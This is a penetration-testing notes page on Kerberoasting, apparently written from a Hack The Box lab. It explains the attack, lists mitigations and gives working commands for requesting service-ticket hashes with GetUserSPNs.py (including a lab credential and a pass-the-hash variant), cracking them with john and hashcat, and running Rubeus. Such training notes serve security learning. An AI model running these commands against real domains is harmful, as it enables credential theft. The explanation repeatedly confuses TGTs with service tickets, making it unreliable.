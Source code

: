 # Kerberoasting

## Introduction

Kerberos encrypts Ticket Granting Tickets (TGTs) that are provided from the Domain Controller (DC) -- Which typically acts as the Key Distribution Center (KDC) against a user's Kerberos hash. <mark style="color:red;">Kerberoasting</mark> means that <mark style="color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

Note: You NEED valid credentials inside the domain to perform this attack.

## High-Level Understanding

<figure><img src="../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

* It is important that we focus on the <mark style="color:yellow;">KRB-TGS-REQ</mark> and <mark style="color:yellow;">KRB-TGS-REP</mark>
* With the <mark style="color:yellow;">REQ portion</mark>, you are requesting the TGT from the TGS
* With the <mark style="color:yellow;">REP portion</mark>, you are obtaining the <mark style="color:yellow;">TGT reply</mark> that is <mark style="color:yellow;">encrypted with the NTLM hash</mark> of the account that the service is running under&#x20;
  * This is typically a <mark style="color:yellow;">SPN</mark>
  * What does this look like?&#x20;
    * <mark style="color:yellow;">mssql\_svc</mark>
    * <mark style="color:yellow;">MSSQL/sql1@htb.local</mark>
    * <mark style="color:yellow;">Service/hostname@domain</mark>
* You can then take the NTLM hash offline (obtained from the Kerberos TGT Reply message) and crack it
* You can <mark style="color:yellow;">execute this attack remotely or locally</mark> as long as you have <mark style="color:yellow;">valid account credentials</mark>

### Mitigation Strategies

* Since kerberoasting takes advantage of the pure nature of Kerberos, there is no official mitigation strategy for it, simply recommendations
* Therefore, enforcing strong and complex passwords throughout your domain is the best way to mitigate this threat
* Rotate these credentials often; expiration times
* Make sure your service accounts are using the least privilege possible
  * Do NOT put these accounts in the domain admins group

## How To

### Get-UserSPNs.py

* Check if the user has a SPN with the following command:

```python
Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

# The SPN will appear as RESEARCH/web_svc.search.htb:60001
# You will also get a hash, save it and crack with John

john --wordlist=/usr/share/wordlists/rockyou.txt hash

# Or Hashcat

hashcat -m 13100 -a 0 kerberoast.txt /usr/share/wordlists/rockyou.txt
# -a 0 -- Execute dictionary attack against provided details with specified wordlist
```

```
# Domain Account/Credentials Method
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

# Domain Account/Credentials Method w/ Pass The Hash
GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Grepping for Hashcat Formats

```
hashcat --help | grep etype
```

### Rubeus

```
Rubeus.exe kerberoast
```

## Reference

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}
